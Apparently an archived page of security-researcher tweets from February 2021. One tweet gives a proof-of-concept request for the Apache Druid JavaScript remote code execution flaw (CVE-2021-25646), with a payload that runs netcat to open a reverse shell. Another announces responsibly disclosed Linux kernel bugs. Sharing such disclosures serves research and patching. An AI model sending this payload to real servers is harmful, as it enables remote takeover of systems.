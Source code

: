 # wugeej
**https://twitter.com/wugeej/status/1357509755544080386 _at 2021-02-05 02:02:01_**
<blockquote>
Apache Druid JavaScript RCE (CVE-2021-25646)

[PoC]
POST /druid/indexer/v1/sampler HTTP/1.1
...
...
 {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('nc 192.168.1.10 5555 -e /bin/sh')}"

https://t.co/WEwHLan7TD https://t.co/zublpQiYfR
</blockquote>

* https://gist.github.com/FanqXu/36c5e0070fd8e0b6646993b4e386a6b1

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+EtbX1VwVcAIEE3_.png" alt="http://pbs.twimg.com/media/EtbX1VwVcAIEE3_.png"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>107</code></td>
<td>Favorites: <code>278</code></td>
</tr></table>

---

# a13xp0p0v
**https://twitter.com/a13xp0p0v/status/1357460788076826627 _at 2021-02-04 22:47:26_**
<blockquote>
In January I found, exploited, fixed and responsibly disclosed Linux kernel vulnerabilities in virtual sockets.

Public announcement: https://t.co/NjXfS0NQxj
